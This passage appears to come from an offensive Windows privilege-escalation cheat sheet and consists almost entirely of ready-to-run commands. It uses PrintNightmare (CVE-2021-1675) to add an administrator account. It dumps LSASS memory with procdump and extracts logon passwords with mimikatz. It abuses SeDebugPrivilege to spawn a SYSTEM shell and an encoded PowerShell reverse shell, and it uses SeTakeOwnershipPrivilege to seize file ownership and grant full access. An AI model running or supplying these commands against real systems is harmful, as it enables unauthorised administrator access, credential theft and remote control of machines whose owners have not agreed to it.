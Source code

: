 #### PrintNightmare (CVE-2021-1675)
```powershell
# Step 1: Import module
Import-Module .\printnightmare.ps1

# Step 2: Create new admin user
Invoke-Nightmare -NewUser "admin" -NewPassword "P@ssw0rd!" -DriverName "PrintME"

# Step 3: Verify user creation
net localgroup administrators
```

### SeDebugPrivilege

#### Dump LSASS Process
```cmd
# Method 1: Procdump
procdump.exe -accepteula -ma lsass.exe lsass.dmp

# Method 2: Task Manager
# 1. Open Task Manager
# 2. Find lsass.exe process
# 3. Right-click -> Create dump file

# Extract with Mimikatz
mimikatz.exe
log
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

#### Code Execution
```powershell
# Step 1: Find SYSTEM process PID
tasklist

# Step 2: Execute with ImpersonateFromParentPid
ipmo .\debugpriv.ps1; ImpersonateFromParentPid -ppid <PID> -command "C:\windows\system32\cmd.exe"

# Reverse Shell
ipmo .\debugpriv.ps1; ImpersonateFromParentPid -ppid <PID> -command "C:\windows\system32\cmd.exe" -cmdargs "/c powershell.exe -e <base64_revshell>"
```

### SeTakeOwnershipPrivilege

#### Enable and Use Privilege
```powershell
# Step 1: Enable privilege
Import-Module .\Enable-Privilege.ps1
.\EnableAllTokenPrivs.ps1
whoami /priv

# Step 2: Check file ownership
Get-ChildItem -Path 'C:\target\file.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}

# Step 3: Take ownership
takeown /f 'C:\target\file.txt'

# Step 4: Modify ACL
icacls 'C:\target\file.txt' /grant <user>:F
```

---